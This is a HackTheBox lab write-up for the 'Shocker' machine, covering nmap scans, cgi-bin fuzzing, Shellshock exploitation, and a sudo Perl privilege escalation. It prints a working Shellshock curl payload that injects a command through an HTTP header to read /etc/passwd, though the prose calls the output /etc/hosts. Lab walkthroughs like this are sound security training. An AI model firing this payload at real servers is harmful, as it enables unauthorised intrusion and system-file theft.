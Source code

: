 ```yaml
---
title: "Shocker - HackTheBox"
layout: single
excerpt: "This is an easy machine, the experience has not been frustrating due to its ease. While fuzzing I found a directory called cgi-bin so I thought it might be a shellshock, while fuzzing again I found a script called user.sh, and it was vulnerable to shellshock, once I gained access to the machine I took advantage of Perl because I could run it with sudo."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - shellshock
  - perl
  - WZFuzz
  - curl
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png">
</p>

I started by running an `Nmap` scan to identify any open ports on the machine.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

I also did another scan to verify the version and service of each open port.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Apparently I only had two ports, I started with the web server, there was little I could do with the SSH service, this was what I saw.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

I didn't find anything, so I resorted to fuzzing with `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

I found a `/cgi-bin/`, this looked like a full blown `shellshock`, I fuzzed it with `wfuzz`, to see if I could find a bash script.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

And yes, I found a script called `user.sh`, to confirm that it was a `shellshock` I used the script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) and it was indeed vulnerable to `shellshock`, I ran the following command sending a GET request via `curl` to see if it returned the `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Yes, it returned the contents of `/etc/hosts`, now I just needed to access the machine, I started a reverse shell using "netcat" on port `443` and accessed it.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Now all that was missing was the privilege escalation, for this I did `sudo -l`, I saw that I could run Perl with `root` privileges, I went to [gftobing](https://gtfobins.github.io/) to see if I could escalate privileges in some way with Perl, apparently I could.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

I run the command with `sudo` and give myself superuser permissions.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
